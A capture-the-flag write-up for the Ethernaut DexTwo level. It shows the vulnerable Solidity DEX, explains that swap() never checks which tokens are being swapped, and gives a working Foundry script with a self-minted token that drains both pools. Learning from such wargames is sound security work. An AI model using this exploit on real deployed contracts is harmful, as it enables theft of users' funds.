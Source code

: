 # Ethernaut Level 23 DexTwo

---

Contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "openzeppelin-contracts-08/token/ERC20/IERC20.sol";
import "openzeppelin-contracts-08/token/ERC20/ERC20.sol";
import "openzeppelin-contracts-08/access/Ownable.sol";

contract DexTwo is Ownable {
    address public token1;
    address public token2;

    constructor() {}

    function setTokens(address _token1, address _token2) public onlyOwner {
        token1 = _token1;
        token2 = _token2;
    }

    function add_liquidity(address token_address, uint256 amount) public onlyOwner {
        IERC20(token_address).transferFrom(msg.sender, address(this), amount);
    }

    function swap(address from, address to, uint256 amount) public {
        require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
        uint256 swapAmount = getSwapAmount(from, to, amount);
        IERC20(from).transferFrom(msg.sender, address(this), amount);
        IERC20(to).approve(address(this), swapAmount);
        IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
    }

    function getSwapAmount(address from, address to, uint256 amount) public view returns (uint256) {
        return ((amount * IERC20(to).balanceOf(address(this))) / IERC20(from).balanceOf(address(this)));
    }

    function approve(address spender, uint256 amount) public {
        SwappableTokenTwo(token1).approve(msg.sender, spender, amount);
        SwappableTokenTwo(token2).approve(msg.sender, spender, amount);
    }

    function balanceOf(address token, address account) public view returns (uint256) {
        return IERC20(token).balanceOf(account);
    }
}

contract SwappableTokenTwo is ERC20 {
    address private _dex;

    constructor(address dexInstance, string memory name, string memory symbol, uint256 initialSupply)
        ERC20(name, symbol)
    {
        _mint(msg.sender, initialSupply);
        _dex = dexInstance;
    }

    function approve(address owner, address spender, uint256 amount) public {
        require(owner != _dex, "InvalidApprover");
        super._approve(owner, spender, amount);
    }
}
```

The `Dex` contract starts with a liquidity of 100 for both token1 and token2. Player starts with a balance of 10 for both tokens. We have to exploit the vulnerability of the contract to drain the dex liquidity of both tokens. The swapping logic is in function `getSwapPrice()`: `return ((amount * IERC20(to).balanceOf(address(this))) / IERC20(from).balanceOf(address(this)))`. We can see that we caculate `swapAmount` by using a simple ratio of from-to liquidity and times `amountFrom`. We can use mathematical analysis to represent this swapping logic: 

We can let $X_n$ to be the liquidity of *from* token before n-th swap, and $Y_n$ to be the liquidity of *to* token before n-th swap. For the attacker (user), we set $a_n$ to be the amount of *from* token that the attacker wants to swap from the dex, and $b_n$ to be the amount of *to* token that will be swapped based on the swapping logic. We will have:


$$
b_n = \lfloor\frac{Y_n a_n}{X_n} \rfloor 
$$
It is true when $a_n <= attackerBalance$.

And we have:
$$
X_{n+1} = X_n + a_n \\
Y_{n+1} = Y_n - b_n
$$
Notice that there is a slight difference between the `DexTwo` and the `Dex`: it does not have the line: `require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");`, which means that we can basically swap any token that we want for token1 or token2. 

So, a simple way to drain the liquidity of *to* token, i.e., to let $Y_{n+1}=0$, is to let $b_n=Y_n$, i.e., $a_n=X_n$. Since the *from* token might not necessarily be token1 or token2, which has a solid liquidity of 100, we can just send the contract with our self-made token `HACK`, then swap all the `HACK` that we just sent it for token1 to drain the `HACK` liquidity ($a_n=X_n$), then we can drain the token1 liquidity ($Y_{n+1}=0$).

`IDexTwo.sol`:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IDexTwo {
    function token1() external view returns (address);
    function token2() external view returns (address);
    function add_liquidity(address token_address, uint256 amount) external;
    function swap(address from, address to, uint256 amount) external;
    function approve(address spender, uint256 amount) external;
    function balanceOf(address token, address account) external view returns (uint256);
}

```

we use an interface to interact with `DexTwo` instance.

`HackToken.sol`:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {ERC20} from "@openzeppelin/contracts/token/ERC20/ERC20.sol";

contract HackToken is ERC20 {
    address private _dex;

    constructor(address dexInstance, string memory name, string memory symbol, uint256 initialSupply)
        ERC20(name, symbol)
    {
        _mint(msg.sender, initialSupply);
        _dex = dexInstance;
    }

    function approve(address owner, address spender, uint256 amount) public {
        require(owner != _dex, "InvalidApprover");
        super._approve(owner, spender, amount);
    }
}
```

We use the exact same code as `SwapToken` to create our own `ERC20` token `HACK`. 

`DexTwo.s.sol`:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Script, console} from "forge-std/Script.sol";
import {IDexTwo} from "../src/IDexTwo.sol";
import {HackToken} from "../src/HackToken.sol";

contract DexTwoScript is Script {
    address constant DEX_TWO_ADDRESS = 0xXXXXXXXXX;
    uint256 constant INITIAL_HACK_TOKEN_BALANCE = 1000 ether;
    uint256 constant HACK_TOKEN_SWAP_AMOUNT = 1 ether;
    IDexTwo dexTwo = IDexTwo(DEX_TWO_ADDRESS);
    address token1 = dexTwo.token1();
    address token2 = dexTwo.token2();
    HackToken hackToken;

    function run() external {
        vm.startBroadcast();

        hackToken = new HackToken(DEX_TWO_ADDRESS, "HackToken", "HACK", INITIAL_HACK_TOKEN_BALANCE);
        // set allowance[EOA][Dex] so that dex can pull hackToken during swap
        hackToken.approve(msg.sender, DEX_TWO_ADDRESS, INITIAL_HACK_TOKEN_BALANCE);
        // Let *your EOA* act as spender for your own tokens when calling transferFrom
        // set allowance[EOA][EOA]
        hackToken.approve(msg.sender, type(uint256).max);

        hackToken.transferFrom(msg.sender, DEX_TWO_ADDRESS, HACK_TOKEN_SWAP_AMOUNT);
        // dex now have a liquidity of 1 HACK
        dexTwo.swap(address(hackToken), token1, HACK_TOKEN_SWAP_AMOUNT);
        console.log("DexTwo token1 balance after swap:", dexTwo.balanceOf(token1, DEX_TWO_ADDRESS));

        // dex now have a liquidity of 2 HACK
        dexTwo.swap(address(hackToken), token2, HACK_TOKEN_SWAP_AMOUNT * 2);
        console.log("DexTwo token2 balance after swap:", dexTwo.balanceOf(token2, DEX_TWO_ADDRESS));

        vm.stopBroadcast();
    }
}
```

In the script, we first deploy the `HackToken`, then send it to the dex, and swap them for all of the token1 and token2 that it has. A few things have to be noticed though. For setting the allowance of `HACK`, we have to both approve dex and **ourselves** (EOA) to pull the token, since not only the dex would pull the token, but also ourselves would transfer the token from our EOA to the dex. Or you can use `transfer` instead of `transferFrom` to avoid allowance thing.